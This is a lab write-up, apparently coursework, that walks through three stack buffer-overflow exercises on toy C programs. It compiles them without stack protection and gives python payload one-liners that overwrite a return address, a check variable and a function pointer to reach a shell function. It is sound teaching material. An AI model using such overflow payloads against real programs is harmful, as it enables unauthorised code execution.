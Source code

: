 # BOF1
## Interpret the attack:
![bof1-stack-frame](../img/bof1/stack-frame.png)

### Vulnerability:
The `gets()` function reads input without checking the length, which can lead to a **buffer overflow** vulnerability.
### Exploitation:
Overflow the array in `vuln()` to overwrite the return address and jump to `secretFunc()`.

## Conducting the attack:
1. Disable stack protection
    ```
    gcc -g bof1.c -o bof1.o -fno-stack-protector -mpreferred-stack-boundary=2
    ```
2. Load bof1.o in gdb
    ```
    gdb bof1.o
    ```
3. Once you load out bof1.out in gdb, use the disassemble command to display the assembly code for a secretFunc() memory region
   ![bof1-disas-secretFunc](../img/bof1/secretFunc.png)
4. The secretFunc() memory region is `0x0804846b`. Now, we can try attack to this point by running file and passing value to array[200]:
    ```
    echo $(python -c "print('a'*204 + '\x6b\x84\x04\x08')") | ./bof1.o
    ```
    ![bof1-missing-arguments](../img/bof1/missing-arguments.png)
5. Continue by add the variables a,b,1,2,... to the end of bof1.out, this will lead to buffer over flow
    ```
    echo $(python -c "print('a'*204 + '\x6b\x84\x04\x08')") | ./bof1.o 123
    ```
    ![bof1-succeed](../img/bof1/succeed.png)
---
# BOF2
## Interpret the attack:
![bof2-stack-frame](../img/bof2/stack-frame.png)

### Vulnerability:
The fgets() function reads `45` bytes into a buffer of `40` bytes, allowing **overflow**.
### Exploitation:
Overflow the buffer to modify the check variable.
Change check from `0x04030201` to `0xdeadbeef`, triggering the winning condition.

## Conducting the attack:
1. Disable stack protection
    ```
    gcc -g bof2.c -o bof2.o -fno-stack-protector -mpreferred-stack-boundary=2
    ```
2. Load bof2.o in gdb
    ```
    gdb bof2.o
    ```
3. Lets try to pass 44 byte to print out this statement `You are on the right way!`
    ```
    echo $(python -c "print('a'*40 + '\x01\x02\x03\x02')") | ./bof2.o   
    ```
    ![bof2-less-than-45-byte](../img/bof2/44byte.png)
4. Now change the passing variable to meet the goal
    ```
    echo $(python -c "print('a'*40 + '\xef\xbe\xad\xde')") | ./bof2.o   
    ```
    ![bof2-win](../img/bof2/win.png)
---
# BOF3
## Interpret the attack:
![bof3-stack-frame](../img/bof3/stack-frame.png)

### Vulnerability:
The `fgets()` function reads `133` bytes into a buffer of `128` bytes, causing a buffer overflow.
The overflow can modify the function pointer `func()`.
### Exploitation:
Overflow `buf` and overwrite the function pointer `func` to point to the `shell()` function.

## Conducting the attack:
1. Disable stack protection
    ```
    gcc -g bof3.c -o bof3.o -fno-stack-protector -mpreferred-stack-boundary=2
    ```
2. Load bof2.o in gdb
    ```
    gdb bof3.o
    ```
3. Func is a pointer which is pointing to `sup()` address. So to override and change this pointer to `shell()` address we have to find the address of shell function
    ![bof3-shell](../img/bof3/shell.png)
4. The attack 
    ```
    echo $(python -c "print('a'*128 + '\x5b\x84\x04\x08')") | ./bof3.o
    ```
    ![bof3-the-attack](../img/bof3/attack.png)